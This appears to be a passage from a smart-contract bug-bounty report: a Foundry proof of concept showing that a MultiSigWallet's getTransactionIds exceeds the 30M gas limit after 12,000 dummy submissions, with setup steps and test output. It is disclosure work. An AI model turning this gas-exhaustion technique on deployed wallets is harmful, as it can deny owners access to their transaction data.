 ```
```

## Proof of concept
You will have to clone the immunefi poc repo and follow the steps below. I had to upgrade the MultiSigWallet code to match solc v0.8.19 compiler in order todo this PoC. Nevertheles, I also tested in Remix using the same compiler (v0.4.26, also using the original code) and the it start reverting at around 1200 txs. Once you run the test, you can see the `gas used` which is above 30M, which confirm the problem.

- git clone https://github.com/immunefi-team/forge-poc-templates.git
- forge init --template immunefi-team/forge-poc-templates --branch default
- Add the following code in src folder, which is the `MultiSigWallet.sol` contract but upgraded to compile with `Solc 0.8.19`.
- Replace test/PoCTest.sol with the following test.
- forge test -vv --match-test testAttack

```
Running 1 test for test/PoCTest.sol:PoCTest
[PASS] testAttack() (gas: 31621915)
Logs:

>>> Initial conditions: # transaction submitted --> 12000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 411.76ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@immunefi/src/PoC.sol";
import "../src/MultiSigWallet.sol";

contract PoCTest is PoC {
    MultiSigWallet public walletContract;
    address constant ownerAccount1 = 0x2385D7aB31F5a470B1723675846cb074988531da;
    address constant ownerAccount2 = 0x0000000000000000000000000000000000000001;

    function setUp() public {
        deal(ownerAccount1, 1 ether);
        deal(ownerAccount2, 1 ether);

        // Deploy attack contract
        address[] memory accounts = new address[](2);
        accounts[0] = ownerAccount1;
        accounts[1] = ownerAccount2;
        walletContract = new MultiSigWallet(accounts, 2);
        
        // add dummy txs
        bytes memory localBytes = new bytes(1);
        for (uint k=0; k<12000; k++) {
            vm.prank(ownerAccount1);
            walletContract.submitTransaction(accounts[0], 0, localBytes);
        }

        uint txcount = walletContract.transactionCount();
        console.log("\n>>> Initial conditions: # transaction submitted -->", txcount);
    }

    function testAttack() public {
        walletContract.getTransactionIds(0, 20, true, true);
    }
```